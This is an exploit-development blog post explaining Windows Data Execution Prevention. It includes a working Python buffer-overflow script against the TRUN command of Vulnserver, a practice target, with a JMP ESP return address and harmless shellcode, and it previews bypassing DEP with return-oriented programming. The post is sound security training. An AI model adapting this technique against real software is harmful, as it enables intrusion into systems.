





:slug: understanding-dep/
:date: 2020-08-21
:category: attacks
:subtitle: Let's protect the stack
:tags: osee, training, exploit
:image: cover.png
:alt: Photo by Chris Panas on Unsplash
:description: This post will show how the Data Execution Prevention (DEP) security mechanism works and what are the implication for exploit development.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/0Yiy0XajJHQ

= Understanding DEP

In past blog entries, I've written a good amount of articles dealing
with Windows exploit development, link:../tags/vulnserver/[most of them]
attacking Vulnserver, a vulnerble-by-design (`VbD`) server that is designed
for such a noble endeavor. I also wrote a couple of articles creating an
exploit for link:../exploiting-quickzip/[QuickZIP] and
link:../exploiting-netscanner/[MiTec Net Scanner]. All of those exploits
relied on the ability to execute instructions written on the stack of the
process.

However, modern CPUs have a mechanism that allow the OS to prevent that.

In this article, we will introduce that protecion and in forthcoming articles
we will check a way to bypass it, called `ROP` (Return-Oriented Programming).

== No-Execute bit

The protection on the CPUs is known as the NX (No-Execute) bit. The OS will
use such capability to mark some memory areas (remarkably the stack) as
non-executable and thus, preventing common buffer overflow exploits like the
ones we've used so far. Let's clarify that.

In `x86` architecture, when a function is called, a function frame is created
on the stack. This is a common function stack frame distribution on memory:

.Common function stack frame
[source,text]
----
.____________._____________._____________._____________._________________.
   vuln_var     Saved EBP     Saved EIP     Func args     Rest of stack
----

On a simple buffer overflow, when we write past the `vuln_var` size,
we can overwrite anything that's below the stack, including the `Saved EBP`
and `Saved EIP`. When the vulnerable function returns, it will get the
`Saved EIP` value back from the stack and use it as the next instruction
pointer. That's why we usually overwrite the `Saved EIP` with a pointer
to a `JMP ESP` instruction that allow us to redirect execution back to the
stack on where we put the shellcode.

.Example overflowed vuln_var
[source,text]
----
 AAAAAAAAAAAA AAAAAAAAAAAAA <pointer to JMP ESP>    Shellcode
.____________._____________.____________________._______________.
   vuln_var     Saved EBP         Saved EIP       Rest of stack
----

For example, let's take a look a this exploit:

[source,python]
----
#!/usr/bin/env python3
#
# Simple DEP check

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 625011AF   .  FFE4                  JMP ESP
    struct.pack('<L', 0x625011AF) +
    b'\x31\xc0' +       # xor eax,eax
    b'\x04\x08' +       # add al,0x8
    b'\x90' +           # nop
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

This a simple exploit that will take advantage of a buffer overflow
vulnerability of the Vulnserver `TRUN` command. link:../vulnserver-trun/[Here]
you can see the full writeup of how to find that vulnerability using fuzzing
and link:../reversing-vulnserver/[here] using reverse engineering.

This version of the exploit will overflow the vulnerable variable this way:

.Example overflowed vuln_var
[source,text]
----
 AAAAAAAAAAAA AAAAAAAAAAAAA \xaf\x11\x50\x62  \x90\x08\x04\xc0\x31
.____________._____________._________________.____________________.
   vuln_var     Saved EBP       Saved EIP          Shellcode
----

On where:

. 2006 `A` are added to trigger the overflow.
. `0x625011AF` is a pointer to a `JMP ESP` instruction and will be placed on
`Saved EIP`.
. When the vulnerable function returns, it will execute the instruction
pointed by `Saved EIP` which holds the `JMP ESP` instruction.
. With that, the execution flow is now redirected to the stack on where the
shellcode was placed.
. The shellcode, in this case will execute three arbitrary instructions:
.. `xor eax eax` -> Zero-out `EAX` register
.. `add al,0x8` -> Make `EAX` = `0x00000008`
.. `nop` -> Does nothing

Let's see it in action:

As you can see, we were able to execute the instructions on our shellcode that
we placed on the stack, as expected.

== Enabling DEP

On modern Windows versions, the NX bit of the CPU can be leveraged by using a
feature called Data Execution Prevention or `DEP`. An application can be
compiled with the `/NXCOMPAT` flag to enable `DEP` for that application. Also,
you can use `editbin.exe /NXCOMPAT` over an `.exe` file to enable it on
an already compiled file.

In a debugger, we can check if an executable has that flag enabled:

You can also enable `DEP` system-wide, which will force `DEP` to all
applications, including those compiled without `/NXCOMPAT`. To do that,
you can use the following instructions:

* Press the `Windows` key and search for `View advanced system settings`.
* In the resulting window, click on tab `Advanced`:

* Then in `Performance` click on `Settings`.
* Move to the tab `Data Execution Prevention`:

* The default setting is `Turn on DEP for essential Windows programs...`, but
to turn it on for every application, you must select
`Turn on DEP for all programs...`.
* Apply and restart the PC.

*WARNING:* When you change this value and you have `Bitlocker` enabled, you
will be asked to enter the `Bitlocker` recovery key after the reboot. *If you
don't have that information, please don't change the `DEP` value or your system
will become unusable.*

With that in place, we can check again our exploit to see if `DEP` really
prevents the execution of the instructions of our shellcode.

*NOTE:* We will talk about Hardware-based `DEP` which uses the NX bit of the
CPU to mark memory regions as non-executable. Software-based `DEP` will
only prevent SEH-based overflows and it's not in the scope of this article.
You can get more information on SEH-based
exploits link:../vulnserver-gmon/[here].

== Executing shellcode with DEP enabled

Now, after enabling `DEP` system-wide, let's execute our exploit again:

Several things have happened:

. The overflow is performed.
. The `Saved EIP` value was overwritten successfully with the pointer
to `JMP ESP`.
. The `JMP ESP` instruction is performed and execution flow is rediected to
the stack on where our shellcode is placed.
. However, when it tries to execute the first instruction on the shellcode
(`xor eax,eax`), an `Access violation` exception is triggered, which means
that it was trying to execute code on a memory region marked as non-executable.
`DEP` worked.

== Bypassing DEP

Now, we cannot execute instructions placed on the stack, but we control the
execution flow of the application. Howeverr, the stack is a place where
the application (and therefore, the exploit) can read and write data and
by controlling both (the execution flow and the stack), we can do wonders.

In the previous example, we couldn't execute the instructions on the
shellcode, but we *were able* to execute a single instruction: `JMP ESP`.
We did that by placing the *pointer* to the instruction in the right place.

We can use that to run arbitrary code, without executing a single instruction
on the stack. Let's welcome Return-Oriented Programming.

== Conclusions

This article show a mechanism created to prevent the exploitation of
buffer overflow vulnerabilities. `DEP` surely leaves behind common exploits.
However, in the next article we will see how to bypass `DEP` using
Return-Oriented Programming and then we can create a fully working exploit
that triggers a reverse TCP shell on a DEP-enabled application.
